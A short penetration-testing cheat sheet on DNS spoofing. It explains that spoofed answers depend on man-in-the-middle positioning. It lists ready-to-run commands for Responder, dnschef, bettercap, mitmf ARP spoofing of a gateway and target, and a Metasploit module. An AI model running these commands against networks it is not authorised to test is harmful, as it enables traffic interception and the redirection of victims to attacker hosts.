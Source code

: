 # 🟡 DNS Spoofing



DNS is not multicast or broadcast like LLMNR, NBT-NS or mDNS. In order to answer DNS requests, attacker first need to receive them. For instance, this can be achieved with ARP spoofing or DHCPv6 spoofing. DNS spoofing is basically setting up a DNS server and answering DNS queries obtained through man-in-the-middle technique.

### <mark style="color:orange;">Responder</mark>

```
responder --interface "eth0"
responder -I "eth0"
```

### <mark style="color:orange;">dnschef</mark>

```
dnschef --fakeip 'Pentest_IP_Address' --interface 'Pentest_IP_Address' --port 53 --logfile dnschef.log
```

### <mark style="color:orange;">bettercap</mark>

```
set dns.spoof.domains $DOMAIN_FQDN
set dns.spoof.all true
dns.spoof on
```

### <mark style="color:orange;">mitmf (deprecated)</mark>

```
mitmf --arp --spoof --gateway 10.0.0.1 --target 10.0.0.56 -i wlan0 --dns
```

### <mark style="color:orange;">metasploit</mark>

```
use post/linux/manage/dns_spoofing
```
